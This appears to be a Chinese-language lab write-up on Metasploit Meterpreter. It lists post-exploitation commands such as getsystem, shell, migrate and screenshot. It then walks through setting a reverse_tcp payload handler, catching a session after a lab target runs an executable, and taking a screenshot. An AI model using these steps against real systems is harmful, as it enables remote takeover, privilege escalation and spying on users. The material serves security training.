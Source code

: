 ```yaml
---
title: metasploit之meterpreter命令
date: 2021-12-21 12:22:46
tags: 
    - msf
    - meterpreter 
---
```


## metasploit之meterpreter命令

### 目的: 了解meterpreter命令

### 原理:  
`ps`         查询当前目标机所有进程
`getpid`       获取当前会话进程
`getuid`       当前用户所用的权限，所在用户组
`sysinfo`      取系统信息
`getsystem`    提升至system最高权限
`shell`      进入cmdshell命令模式
`pwd`       查看当前所在位置
`cat`        查看文本文件
`ipconfig`     查看网络配置信息
`migrate pid`   迁移pid
`screenshot`    截取当前用户屏幕保存到本地

### 过程：

打开终端，运行msf，`use exploit/multi/handler`选择exploit，`set payload windows/meterpreter/reverse_tcp`设置payload，`set LHOST 192.168.1.2`设置监听主机，`set LPORT 11101`设置端口

![](https://gitee.com/oxchang/img-host/raw/master/metasploit%E4%B9%8Bmeterpreter%E5%91%BD%E4%BB%A4/1.PNG)

输入`exploit -j`运行脚本，且在后台监听


靶机双击桌面运行xx.exe，返回kali，已经取得会话

![](https://gitee.com/oxchang/img-host/raw/master/metasploit%E4%B9%8Bmeterpreter%E5%91%BD%E4%BB%A4/2.PNG)

![](https://gitee.com/oxchang/img-host/raw/master/metasploit%E4%B9%8Bmeterpreter%E5%91%BD%E4%BB%A4/3.PNG)

敲击回车，返回msf，执行`sessions`，查看会话，再执行`sessions 1`,进入会话

![](https://gitee.com/oxchang/img-host/raw/master/metasploit%E4%B9%8Bmeterpreter%E5%91%BD%E4%BB%A4/4.PNG)

执行`ps`查看进程

![](https://gitee.com/oxchang/img-host/raw/master/metasploit%E4%B9%8Bmeterpreter%E5%91%BD%E4%BB%A4/5.PNG)

`getuid` 查看权限

`pwd` 查看当前路径

`screentshot`截图

![](https://gitee.com/oxchang/img-host/raw/master/metasploit%E4%B9%8Bmeterpreter%E5%91%BD%E4%BB%A4/6.PNG)

`background`会话转入后台

![](https://gitee.com/oxchang/img-host/raw/master/metasploit%E4%B9%8Bmeterpreter%E5%91%BD%E4%BB%A4/7.PNG)

新建终端，进入/root目录下，查看截图

![](https://gitee.com/oxchang/img-host/raw/master/metasploit%E4%B9%8Bmeterpreter%E5%91%BD%E4%BB%A4/8.PNG)

实验结束